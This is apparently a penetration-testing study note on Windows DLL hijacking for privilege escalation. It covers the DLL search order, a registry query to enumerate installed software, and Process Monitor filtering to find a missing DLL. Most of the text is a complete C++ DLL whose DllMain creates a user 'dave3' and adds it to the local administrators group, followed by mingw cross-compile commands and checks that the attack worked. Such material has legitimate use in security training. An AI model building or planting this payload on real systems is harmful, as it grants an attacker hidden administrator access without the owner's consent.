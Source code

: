 ```yaml
---
IP_KALI: 192.168.45.155
---
```

DLL loading order:
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

Enumerate installed applications:
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

- Check to see that the software directory is writeable
- Use Process Monitor to determine which .dll's are loaded, since **Process monitor must be run by an admin** the program in question must be installed on a computer that the attacker owns to run and analyze it
- Navigate to and execute C:\tools\Procmon\Procmon64.exe
- Apply filters so that only "CreateFile" operations from the process in question are displayed, apply a third filter to display only the .dll that is vulnerable

Create .dll precursor (TextShaping.cpp) to create new user and add them to admin group:
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Cross compile code with mingw:
- install mingw
```
sudo apt install mingw-w64
```
- cross compile
```
x86_64-w64-mingw32-gcc [NAME].cpp --shared -o [NAME].dll
```

Check to see if attack worked after someone with higher privs runs the process:
```
net user
```

```
net localgroup administrators
```
